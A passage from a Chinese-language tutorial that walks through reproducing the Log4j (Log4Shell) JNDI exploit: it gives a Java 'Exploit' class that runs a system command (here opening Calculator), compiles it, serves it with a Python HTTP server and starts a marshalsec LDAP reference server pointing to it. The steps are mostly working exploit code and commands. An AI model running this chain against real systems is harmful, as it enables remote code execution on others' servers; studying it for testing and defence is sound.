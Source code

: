   * 第二步：客户端编写恶意类。

例如：

 该例子效果为弹出计算器。

```java
public class Exploit {
  public Exploit(){
    try{
      // 要执行的命令
      String[] commands = {"open", "/System/Applications/Calculator.app"};
      Process pc = Runtime.getRuntime().exec(commands);
      pc.waitFor();
   } catch(Exception e){
      e.printStackTrace();
   }
 }

  public static void main(String[] argv) {
    Exploit e = new Exploit();
 }
}
```

* 第三步：将恶意类编译，得到Exploit.class。

  ```
  javac Exploit.java
  ```

* 第四步：在当前目录输入如下命令，启动一个web服务，充当着远程下载的作用。

  ```bash
  python3 -m http.server 8100
  ```

<img src="漏洞利用\log4j (7).png" alt="log4j (7)" style="zoom:61%;" />

   * 第五步：输入如下命令启动marshalsec IDAP服务。

   项目地址：https://github.com/mbechler/marshalsec

```bash
java -cp /Users/fengxuan/Downloads/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```
